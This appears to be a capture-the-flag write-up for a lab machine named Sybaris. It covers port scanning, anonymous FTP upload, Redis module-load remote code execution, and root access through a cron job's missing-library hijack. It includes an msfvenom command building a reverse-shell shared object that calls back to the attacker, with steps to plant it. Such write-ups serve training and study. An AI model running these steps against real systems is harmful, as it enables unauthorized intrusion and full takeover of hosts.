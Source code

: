 # Sybaris

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.93 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 20:45 +08
Nmap scan report for 192.168.243.93
Host is up (0.17s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
6379/tcp  open   redis
```

I ran a detailed scan to enumerate further:

```
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.231
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2194ded36964a84da8f0b50aeabd02ad (RSA)
|   256 674245198bf5f9a5a4cffb8748a266d0 (ECDSA)
|_  256 f3e229a3411e761eb1b746dc0bb99177 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sybaris - Just another HTMLy blog
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
|_http-generator: HTMLy v2.7.5
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
6379/tcp open  redis   Redis key-value store 5.0.9
```

The most interesting thing was the Redis instance because it was a version that was vulnerable to the Redis Module exploit.&#x20;

### Rabbit Holes

Port 80 was full of Rabbit Holes, nothing was useful about it.

### FTP Creds --> RCE

The FTP service allowed for anonymous access:

```
$ ftp 192.168.243.93
Connected to 192.168.243.93.
220 (vsFTPd 3.0.2)
Name (192.168.243.93:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
226 Directory send OK.
```

Not sure what this directory is used for. The Redis RCE exploit requires that we put a shared object file within the file system, then use Redis's `MODULE LOAD` to run it.&#x20;

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

I transferred this file over to the `pub` directory and tried to find the correct directory to load my module. After a bit of guessing, I found that we uploaded `module.so` to `/var/ftp`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then easily get a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Library Hijack

I ran a `linpeas.sh` scan, and found this `cronjob` running:

<figure><img src="../../../.gitbook/assets/image (1) (1) (12).png" alt=""><figcaption></figcaption></figure>

Turns out that there are some directories that we can write to within the `LD_LIBRARY_PATH`, and the cronjob running `log-sweeper` doesn't have a `utils.so` specified:

```
[pablo@sybaris ~]$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007fff4439a000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007fe90fd0e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fe9100dc000)
```

This was pretty easy to exploit. Just generate this reverse shell:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=80 -f elf-so > utils.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
```

Then transfer it to the `/usr/local/lib/dev` directory and wait. Be sure to run `chmod 777 utils.so` on it just in case. The cronjob runs every minute, so the connection takes about 30 seconds to appear:

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Rooted!
